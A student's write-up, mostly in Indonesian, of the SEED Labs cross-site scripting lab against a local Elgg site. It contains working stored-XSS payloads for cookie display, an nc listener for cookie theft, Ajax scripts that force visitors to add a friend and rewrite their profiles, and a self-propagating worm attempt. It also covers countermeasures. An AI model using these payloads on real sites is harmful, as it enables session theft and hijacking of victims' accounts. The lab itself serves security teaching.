### SEEDLAB : XSS by Dito Prabowo

***
#### 0x1 LAB TASK

##### Preparation: Getting Familiar with the "HTTP Header Live" tool

Update Firefox kemudian install http live header :



##### Task 1: Posting a Malicious Message to Display an Alert Window

1. Login dengan salah satu akun yang disediakan, lalu pada profile edit bagian brief description isikan :

          <script>alert(’XSS’);</script>

maka setelah di save akan muncul alert xss



kita juga bisa menambahkan dengan src, yang berarti kita perlu menambahkan file js pada folder web xsslabelgg di /var/www/XSS/Elgg/

atau kita membuat file js di online hosting lalu kita mengisikan src dengan link file js tersebut

##### Task 2: Posting a Malicious Message to Display Cookies

Sama seperti task 1, tinggal isikan :

        <script>alert(document.cookie);</script>



##### Task 3: Stealing Cookies from the Victim’s Machine

Buka Terminal Baru, masukan command

        nc -l 5555 -v

yang artinya listening port 5555 dan mengeluarkan output nya.

kemudian pada profile isi

      <script>document.write(’’);
        </script>

Pada Terminal akan keluar output :

  

##### Task 4: Becoming the Victim’s Friend
Buka Network pada mozila untuk menginspeksi HTTP request, kemudian add friend sammy, akan muncul request url ketika kita add Friend



ada beberapa parameter ketika add friend seperti pada gambar



url : http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1558030758&__elgg_token=OP2JJuQ_QdroKTaNHUKxkQ

nah agar orang yang mengunjungi profile kita (charlie) langsung add friend, kita masukan code dengan injeksi sebagai berikut :

```
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=46"+ts+token; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send();
}
</script>
```
Jadi apabila ada orang lain yang mengunjungi profile charlie (46) orang tersebut akan otomatis add friend

sebelum attack (akun boby):


setelah :


line 1 dan line 2 diperlukan sebagai parameter yang diperlukan url, jika tidak akan error,
ketika tidak ada edit html, bisa dengan mengakali text html
##### Task 5: Modifying the Victim’s Profile
Kita cari tau dulu http request saat edit page

dapat parameter :
```
__elgg_token=uO6T8WPSqQjERMDY9_xUtA&__elgg_ts=1558035294&name=Charlie&description=<p>CyberSecurity ITS</p> &accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2&guid=46
```

berarti kita bikin payload :
```
("&__elgg_ts=")+ts+("&__elgg_token=")+token+("&name=")+userName+"&description=diganti_oleh_dito&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2"+("&guid=")+guid
```

full source :
```
<script type="text/javascript">
window.onload = function(){
var userName=elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var content=("&__elgg_ts=")+ts+("&__elgg_token=")+token+("&name=")+userName+"&description=diganti_oleh_dito&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2"+("&guid=")+guid; //FILL IN
var charlieGuid=46; //FILL IN
var sendurl = "http://www.xsslabelgg.com/action/profile/edit"
if(elgg.session.user.guid!=charlieGuid)
{
profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.send(content);
}
}
</script>
```

profile boby sebelum akses page charlie :
kosongan

setelah mengunjungi profile charlie :


Attack succes

##### Task 6: Writing a Self-Propagating XSS Worm

Pada lab ini, kita diminta tidak hanya merubah profile orang tetapi juga menjadikan orang yang mengunjungi profile kita menjadi attacker juga (biar cepat menyebar).

menggunakan DOM Approach saya sudah mencoba, menggabungkan file pada task 5, lalu menambahkan seperti contoh, tetapi saya lihat hasilnya charachter +() dsb tidak bisa ter escape, kemudian saya coba kasih Regex escape string, tetap tidak mau terescape

script :
```
<script id="worm" type="text/javascript">
var e = /[\+\(\)\\]/g;
escapeRegExp= function(s) {
    return s.replace(e, '\\$&');
};
window.onload = function(){
var userName=elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var wormCode = document.getElementById("worm");
var escapedWorm = escape(escapeRegExp("<" + "script>" + wormCode.innerHTML + "</" + "script>"));
alert(escapedWorm);
var content=("&__elgg_ts=")+ts+("&__elgg_token=")+token+("&name=")+userName+("&description=diganti_oleh_dito_plus_injeksi_")+escapedWorm+"&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2"+("&guid=")+guid; //FILL IN
var charlieGuid=46; //FILL IN
var sendurl = "http://www.xsslabelgg.com/action/profile/edit"
if(elgg.session.user.guid!=charlieGuid)
{
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.send(content);
}
}
</script>
<p>&nbsp;</p>

```
hasilnya tetap, tidak mau mengescape tanda +, padahal yang () mau.




##### Task 7: Countermeasures

pada task ini, kita tinggal mengenable HTMLawed 1.9 security plugin lewat acoount admin, atau meng uncoment Html special charachter di o /var/www/XSS/Elgg/vendor/elgg/elgg/views/default/
output/



hasilnya inject xss tidak akan bekerja
